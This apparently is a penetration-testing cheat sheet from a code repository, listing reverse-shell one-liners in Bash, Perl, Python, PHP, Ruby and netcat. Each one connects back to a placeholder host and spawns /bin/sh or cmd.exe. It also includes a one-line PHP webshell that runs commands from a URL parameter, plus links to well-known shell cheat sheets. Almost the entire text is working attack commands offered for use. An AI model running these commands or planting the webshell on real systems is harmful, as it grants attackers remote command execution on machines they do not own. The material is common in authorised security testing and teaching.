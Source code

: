 # Reverse Shells

## Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Python Psuedo terminal

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Use this on raw shells

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


```
<?php system($_GET['cmd']); ?>
```

Simple php webshell


## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```
nc -e /bin/sh 10.0.0.1 1234
```

Reverse shell Linux

```
nc 10.10.0.1 1234 -e cmd.exe
```

Reverse shell Windows

## References:

[Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys

[Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing

[Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec
